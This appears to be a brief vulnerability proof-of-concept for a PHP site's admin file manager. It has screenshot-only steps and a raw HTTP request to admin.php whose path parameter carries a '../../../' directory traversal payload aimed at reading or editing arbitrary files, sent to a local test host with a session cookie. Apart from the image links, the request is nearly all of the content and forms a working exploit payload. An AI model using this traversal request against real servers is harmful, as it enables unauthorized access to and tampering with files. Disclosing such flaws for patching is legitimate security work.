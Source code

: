 1.

![image-20250105181908453](assets/image-20250105181908453.png)

2.![image-20250105181935413](assets/image-20250105181935413.png)

3.转到文件

![image-20250105182033292](assets/image-20250105182033292.png)

4.

![image-20250105182045392](assets/image-20250105182045392.png)

**GET** /admin/admin.php?**action**=**file**&**ctrl**=**edit**&**path**=**../../../../../../../../../1.txt** **HTTP/1.1**

**Host**: 127.0.0.1:92

**User-Agent**: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0

**Sec-Fetch-Site**: same-origin

**Cookie**: **PHPSESSID**=**eoecdok9771lj8isvt9oqv14g0**

**Sec-Fetch-Dest**: frame

Priority: u=4

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

**Referer**: http://127.0.0.1:92/admin/admin.php?action=file&ctrl=download&path=aaaa

**Sec-Fetch-User**: ?1

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Encoding: gzip, deflate, br, zstd

Upgrade-In**secure-Requests**: 1

**Sec-Fetch-Mode**: navigate